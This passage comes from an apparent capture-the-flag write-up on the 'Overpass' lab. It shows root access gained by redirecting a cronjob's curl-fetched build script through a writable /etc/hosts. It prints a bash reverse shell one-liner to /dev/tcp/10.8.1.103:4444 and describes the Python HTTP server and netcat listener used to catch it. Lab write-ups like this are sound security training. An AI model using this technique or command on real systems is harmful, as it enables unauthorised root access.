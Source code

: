 In particular, the cronjob is executing the `buildscript.sh` with `bash` after retrieving it from `overpass.thm` using `curl`:

```sh
GOOS=linux /usr/local/go/bin/go build -o ~/builds/overpassLinux ~/src/overpass.go
## GOOS=windows /usr/local/go/bin/go build -o ~/builds/overpassWindows.exe ~/src/overpass.go
## GOOS=darwin /usr/local/go/bin/go build -o ~/builds/overpassMacOS ~/src/overpass.go
## GOOS=freebsd /usr/local/go/bin/go build -o ~/builds/overpassFreeBSD ~/src/overpass.go
## GOOS=openbsd /usr/local/go/bin/go build -o ~/builds/overpassOpenBSD ~/src/overpass.go
echo "$(date -R) Builds completed" >> /root/buildStatus
```

As shown above, this file first builds the Overpass password manager witin `/src/`.  It then echos the current date and "Builds completed", appending it to `/root/buildStatus`.  

More importantly, `linpeas.sh` also indicated that we can edit `/etc/hosts`, and thus we can change the `overpass.thm` endpoint to point to our attacker machine.

![](/assets/posts/20220719/etc_hosts.png)

We can then create a `buildscript.sh` file on our machine with a reverse shell one-liner:

```sh
bash -i >& /dev/tcp/10.8.1.103/4444 0>&1
```

Note that this file has to be placed within a `downloads/src/` directory, otherwise the cronjob will not be able to find and fetch the file.  We also require a Python HTTP server, which allows the cronjob to fetch the file and a netcat listener to catch the callback when the file is executed:

![](/assets/posts/20220719/python_http_server.png)

As shown, we receive a GET request for the `buildscript.sh` script.  We then see the callback on our netcat listener and establish our connection as the `root` user.  Finally, since we have successfully escalated our privileges, we can retrieve the root flag:
